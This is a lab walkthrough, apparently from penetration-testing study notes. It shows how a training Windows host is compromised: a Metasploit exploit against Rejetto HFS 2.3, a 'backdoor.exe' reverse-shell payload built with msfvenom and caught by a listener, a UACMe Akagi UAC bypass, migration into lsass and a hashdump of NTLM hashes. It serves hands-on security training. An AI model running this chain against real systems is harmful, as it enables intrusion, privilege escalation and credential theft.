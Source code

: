 # 🔬UAC Bypass

## Lab 1

> 🔬 [UAC Bypass: UACMe](https://attackdefense.com/challengedetailsnoauth?cid=2208)
>
> - Target IP: `10.4.19.119`
> - **UAC** bypass

- Some useful Win CMD commands

```bash
net user
net localgroup administrators
```

### Enumeration

```bash
nmap 10.4.19.119
```

```bash
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49175/tcp open  unknown
```

- Determine the version information of the web server on port `80`

```bash
nmap -sV -p 80 10.4.19.119
```

```bash
80/tcp open  http    HttpFileServer httpd 2.3
```

![nmap port 80](.gitbook/assets/image-20230317102551735.png)

- The version can be checked in a browser by opening the link
  - `http://10.4.19.119/`

### Exploitation

```bash
msfconsole -q
```

- Set the target IP as **GLOBAL RHOSTS variable**

```bash
setg RHOSTS 10.4.19.119
```

```bash
search hfs
use exploit/windows/http/rejetto_hfs_exec
options
# Check other options, TARGETURI, Payload options, if necessary
exploit
```

- [Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution](https://www.exploit-db.com/exploits/39161)
- [Metasploit rejetto_hfs_exec](https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec/)

![Metasploit rejetto_hfs_exec](.gitbook/assets/image-20230317103334601.png)

- Use `meterpreter` commands to gain more information about the target

```bash
getuid
	Server username: VICTIM\admin

sysinfo
    Computer       : VICTIM
    OS             : Windows 2012 R2 (6.3 Build 9600).
    Architecture   : x64
    System Language: en_US
    Domain         : WORKGROUP
    Logged On Users: 2
    Meterpreter    : x86/windows
```

- Migrate current x86 `meterpreter` session to a x64 process

```bash
pgrep explorer
migrate 2708
```

- Get `admin` user privileges

```bash
getprivs
    Enabled Process Privileges
    ==========================
    Name
    ----
    SeChangeNotifyPrivilege
    SeIncreaseWorkingSetPrivilege
    SeShutdownPrivilege
    SeTimeZonePrivilege
    SeUndockPrivilege
```

![](.gitbook/assets/image-20230317104309714.png)

- Verify if `admin` user is part of the local administrators group

```bash
shell
net user
net localgroup administrators

    Alias name   administrators
    Comment   Administrators have complete and unrestricted access to the computer/domain
    Members
    -------------------------------------------------------------------------------
    admin
    Administrator
# "admin" user is a local administrator
```

![](.gitbook/assets/image-20230317104340214.png)

- In order to run programs or tasks with elevated privileges, UAC bypass is necessary

### UAC Bypass & Privesc

- [UACMe Akagi](https://github.com/hfiref0x/UACME/tree/master/Source/Akagi) executable is already present on the attack machine

```bash
ls /root/Desktop/tools/UACME/
	Akagi64.exe
```

- Generate a `meterpreter` payload with `msfvenom`

```bash
ip -br -c a
	eth1@if162568  UP  10.10.4.2/24
```

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.4.2 LPORT=1234 -f exe > backdoor.exe
```

- Set up a new `msfconsole` session and set up a listener  with `multi/handler`, to receive the connection one the payload is executed on the target
  - set the payload used with `msfvenom` - the `windows/meterpreter/reverse_tcp` one
  - set the LHOST IP and LPORT of the attack machine, based on the `msfvenom` generated payload

```bash
msfconsole -q
```

```bash
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.4.2
set LPORT 1234
run
```

- The `reverse_tcp handler` is listening and ready to receive the connection from the malicious payload
- Head back in the `meterpreter` session already opened

```bash
cd C:\\
mkdir Temp
cd Temp
# or use
# cd C:\\Users\\admin\\AppData\\Local\\Temp

upload /root/backdoor.exe
upload /root/Desktop/tools/UACME/Akagi64.exe
```

![](.gitbook/assets/image-20230317110554477.png)

- UAC would prevent running `backdoor.exe`
- Run `Akagi64.exe` executable with UACMe methor 23

```bash
Akagi64.exe 23 C:\Temp\backdoor.exe
```

![Akagi64.exe](.gitbook/assets/image-20230317110948134.png)

- Elevated `meterpreter` session should be received on the listener

![Elevated Mterpreter session received](.gitbook/assets/image-20230317111043471.png)

- Migrate to a `NT AUTHORITY\SYSTEM` service

```bash
ps
ps -S lsass.exe
	692
migrate 692
```

![](.gitbook/assets/image-20230317111259217.png)

> 📌 **Privileges successfully elevated** by bypassing UAC on a system running Windows 2012 R2.

- Dump hashes to get the flag

```bash
hashdump

admin:1012:aad3b435b51404eeaad3b435b51404ee:4d6583ed4cef81c2f2ac3c88fc5f3da6:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:659c8124523a634e0ba68e64bb1d822f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

<details>
<summary>Reveal Flag - admin NTLM Hash is: 🚩</summary>


`4d6583ed4cef81c2f2ac3c88fc5f3da6`

</details>

------

